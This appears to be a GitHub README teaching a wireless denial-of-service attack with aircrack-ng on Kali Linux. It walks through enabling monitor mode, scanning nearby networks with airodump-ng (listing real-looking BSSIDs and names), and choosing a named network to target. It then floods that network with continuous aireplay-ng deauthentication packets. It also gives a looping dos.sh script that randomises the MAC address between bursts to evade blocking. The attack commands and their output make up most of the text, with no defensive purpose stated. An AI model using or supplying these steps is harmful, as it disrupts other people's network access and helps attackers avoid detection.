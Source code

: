 # DOS-Attack

---
**What is DOS ATTACK?**

In computing, a denial-of-service attack (DoS attack) is a cyber-attack in which the perpetrator seeks to make a machine or network resource unavailable to its intended users by temporarily or indefinitely disrupting services of a host connected to the Internet. Denial of service is typically accomplished by flooding the targeted machine or resource with superfluous requests in an attempt to overload systems and prevent some or all legitimate requests from being fulfilled.
For More Depth [Wikipedia](https://en.wikipedia.org/wiki/Denial-of-service_attack)

---

USING AIRCRACK-NG

```
root@kali:~# ifconfig

```
note down the name of your wireless interface
here **wlan0** is used and create a .sh file (use your favourite text editor)
```
root@kali:~#vi monitor.sh

(for using vim editor type)

insert
type whatever content u want to whatever
esc
:wq)

```
[For More Vim Command](https://www.tutorialspoint.com/vim/vim_editing.htm)

*And type the following command*

```
#!/bin/bash

ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
iwconfig wlan0 | grep Mode

```

In Another tab:

```
root@kali:~# chmod +x monitor.sh
root@kali:~# ./monitor.sh

(some expected output)

wlan0     IEEE 802.11  Mode:Monitor  Frequency:2.462 GHz  Tx-Power=20 dBm

root@kali:~#airodump-ng wlan0

(scanning)

some expected output

CH 10 ][ Elapsed: 1 min ][ 2020-05-01 06:41 ][ interface wlan0 down                                                                                                                                             

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                                                                                                                 

 BE:2A:16:CC:C4:C0  -31      100        0    0  11  180   WPA2 CCMP   PSK  ABHIJIT                                                                                                                               
 BE:2F:3D:31:8A:CC  -24      151        0    0   1   65   WPA2 CCMP   PSK  vivo 1609                                                                                                                             
 C4:E9:0A:E3:5D:3C  -62      179        0    0   6  270   WPA2 CCMP   PSK   AUTO CENTER

 ```

Note down the channel no. and BSSID of the router you want to attack here we are attacking ESSID "ABHIJIT"
channel=11
**BBSID=BE:2A:16:CC:C4:C0**

```
root@kali:~# iwconfig channel 11

(switching to the required channel)

root@kali:~# aireplay-ng -0 0 -a BE:2A:16:CC:C4:C0 wlan0 -e ABHIJIT

```

('-0' is used for deauthentication the next number denotes the number the deauthentication packets to be sent if it is 0 it will send continuously untill stopped manually)

#####EXTRA TIPS (IFF not using virtual systems)

creating a .sh which will continuously send some deauthentication packets and then change the mac address of the system , sleeping for some seconds and then the process carries on

```
root@kali:~# vi dos.sh

#!/bin/bash


while true
do
        iwconfig wlan0 channel $1
        aireplay-ng -0 5 -a $2 wlan0
        ifconfig wlan0 down
        macchanger -r eth0 | grep "New MAC"
        ifconfig wlan0 up
        sleep 3

done

```
**In different Tab**

```
root@kali:~#chmod +x dos.sh

root@kali:~#./dos.sh 11 BE:2A:16:CC:C4:C0

```

(dynamic value is used in the dos.sh, 11 goes to $1 , BE:2A:16:CC:C4:C0 goes to $2)


**NOTE**
>after the process the wireless interface can show trouble so run the below code or  reboot your system
```
root@kali:~#service network-manager restart

```
[ALL CODES] (https://github.com/kaki-epithesi/dos-attack)
